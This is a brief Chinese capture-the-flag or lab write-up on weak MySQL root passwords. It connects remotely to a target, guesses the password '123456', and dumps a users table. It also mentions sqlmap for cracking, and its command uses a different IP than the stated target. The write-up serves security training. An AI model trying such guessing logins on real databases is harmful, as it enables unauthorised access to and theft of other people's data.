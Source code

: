 # 弱密码

> 弱口令没有严格和准确的定义，通常认为容易被别人猜测到或被破解工具破解的口令均为弱 口令。弱密码漏洞，即由于 MySQL 数据库 root 账户的密码设置简单，为弱密码，很容易爆 破成功。
>
> MySQL 数据库的登录密码是典型的弱密码，并且有远程登录的权限，攻击者可以通过 sqlmap 等工具破解出弱密码，登录数据库并且获取数据库当中的随机 flag。
>
> tips：注意 sqlru 库

根据拓扑图，操作机地址为 1.1.170.2，靶机地址为 1.1.170.3。

试着连接 mysql：

```shell
$ mysql -h 1.1.100.3 -u root -p
```

提示输入密码。这里我们猜测 `123456`，结果是对的。

```mysql
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sqlr               |
| sqlru              |
+--------------------+
5 rows in set (0.00 sec)

mysql> use sqlru;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------+
| Tables_in_sqlru |
+-----------------+
| users           |
+-----------------+
1 row in set (0.00 sec)

mysql> select * from users;
+----+----------+------------+
| id | username | password   |
+----+----------+------------+
|  1 | test     | 1647669370 |
+----+----------+------------+
1 row in set (0.00 sec)
```
